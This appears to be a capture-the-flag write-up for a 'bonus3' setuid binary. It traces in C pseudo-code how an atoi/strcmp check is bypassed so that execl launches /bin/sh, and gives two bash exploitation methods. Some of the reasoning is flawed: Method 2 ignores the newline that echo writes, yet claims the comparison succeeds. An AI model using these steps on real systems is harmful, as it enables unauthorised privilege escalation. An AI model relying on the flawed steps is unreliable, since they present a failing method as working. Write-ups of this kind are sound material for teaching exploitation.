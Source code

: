 ### String Manipulation Mechanics
```c
// Example: argv[1] = "5", file content = "5hello world..."
fread(buffer1, 1, 66, file);  // buffer1 = "5hello world..." (66 chars)
index = atoi("5");            // index = 5
buffer1[5] = '\0';            // buffer1 = "5hell\0..." → "5hell"
strcmp("5hell", "5");         // Returns non-zero (fails)

// Successful bypass: argv[1] = "1", file content = "1xxxxx..."  
fread(buffer1, 1, 66, file);  // buffer1 = "1xxxxx..." 
index = atoi("1");            // index = 1
buffer1[1] = '\0';            // buffer1 = "1\0xxxx..." → "1"
strcmp("1", "1");             // Returns 0 (success!)
execl("/bin/sh", "sh", "-c", "1", NULL);  // Executes command "1"
```

## Exploitation Methodologies

### Method 1: Empty String Bypass
```bash
# Strategy: Use empty argument to create empty comparison
echo "anything" > /tmp/bonus3
./bonus3 ""

# Execution Flow:
# 1. atoi("") returns 0
# 2. buffer1[0] = '\0' makes buffer1 = ""  
# 3. strcmp("", "") returns 0
# 4. execl("/bin/sh", "sh", "-c", "", NULL) executes
# 5. Empty command might provide interactive shell
```

**Advantages:**
- **Simple**: Minimal file content requirements
- **Reliable**: atoi("") consistently returns 0
- **Universal**: Works regardless of initial file content

**Limitations:**
- **Empty Command**: execl executes empty string (may not spawn shell)
- **Shell Behavior**: Depends on how shell handles empty -c parameter

### Method 2: Self-Referential Numeric Bypass
```bash
# Strategy: Make buffer1 content match argv[1] exactly
echo "5" > /tmp/bonus3  
./bonus3 "5"

# Execution Flow:
# 1. atoi("5") returns 5
# 2. File content "5" loaded into buffer1
# 3. buffer1[5] = '\0' terminates after position 5
# 4. Since file only contains "5", buffer1 = "5"
# 5. strcmp("5", "5") returns 0  
# 6. execl("/bin/sh", "sh", "-c", "5", NULL) executes command "5"
```
